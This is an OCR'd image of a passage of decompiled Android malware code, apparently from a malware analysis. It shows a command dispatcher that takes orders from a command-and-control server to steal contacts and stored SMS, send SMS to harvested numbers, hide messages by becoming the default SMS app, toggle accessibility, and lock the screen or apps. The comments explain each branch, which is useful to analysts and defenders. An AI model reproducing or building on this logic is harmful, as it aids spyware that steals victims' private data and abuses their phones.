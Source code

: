 ```cs
                            }
                            else if(s6.equals("START_PERMISSIONS")) { // start allowing permissions
                                globalService0.Tools.startPermissionsNoDoze(globalService0);
                            }
                            else if(s6.equals("START_PERMISSIONS2")) {
                                globalService0.Tools.startPermissions(globalService0);
                            }
                            else if(s6.equals("START_ADVANCED_PERMISSIONS")) {
                                globalService0.Tools.startPermissions2(globalService0);
                            }
                            else if(s6.equals("DISABLE_ACCESSIBILITY")) { // disable accessibility 
                                globalService0.Tools.enableAppProtection(globalService0, false);
                            }
                            else if(s6.equals("ENABLE_ACCESSIBILITY")) {
                                globalService0.Tools.enableAppProtection(globalService0, true);
                            }
                            else if(s6.equals("ENABLE_MOBILE_DATA")) { // to enable mobile data
                                Utils.popUpMobileData(this);
                            }
                            else if(s6.equals("GET_CONTACTS")) { // send contacts to the C2 server
                                globalService0.Tools.getAllContacts(globalService0);
                            }
                            else if((s6.equals("SEND_SMS")) && (Utils.hasThisPermission(globalService0, "sms"))) { // send messages to the stolen numbers
                                String s16 = jSONObject2.getString("SEND_TO");
                                String s17 = jSONObject2.getString("SEND_MSG");
                                globalService0.Tools.SendSMSMessage(globalService0, s16, s17);
                            }
                            else if(s6.equals("ALL_SMS")) { // send the stored SMSs on the user device to the C2 server
                                globalService0.Tools.getAllSMS(globalService0);
                            }
                            else if(s6.equals("ENABLE_HIDDEN_SMS")) { // hide the SMSs by seting the malware as default messageing app
                                globalService0.Tools.startHiddenSMS(globalService0, true);
                            }
                            else if(s6.equals("DISABLE_HIDDEN_SMS")) {
                                globalService0.Tools.startHiddenSMS(globalService0, false);
                            }
                            else if(s6.equals("STOP_SERVICE_LISTENER")) {
                                ServiceNLStarter.stopMe = true;
                            }
                    }
                     else {
                                boolean z3 = s6.equals("START_LOCK");
                                if(z3) {
                                    String s18 = jSONObject2.getString("PKG");
                                    globalService0.store.set(globalService0, "LOCKER_PKG", s18);
                                    globalService0.Tools.startLocker(globalService0);
                                }
                                else {
                                    boolean z4 = s6.equals("START_APP_LOCK");
                                    if(z4) {
                                        String s19 = jSONObject2.getString("PKG");
                                        globalService0.store.set(globalService0, "LOCKER_APP", s19);
                                        globalService0.Tools.startAppLocker(globalService0);
                                    }
                                    else if(s6.equals("STOP_LOCK")) {
                                        globalService0.store.set(globalService0, "LOCKER_PKG", "");
                                    }
                                    else if(s6.equals("STOP_APP_LOCK")) {
                                        globalService0.store.set(globalService0, "LOCKER_APP", "");
```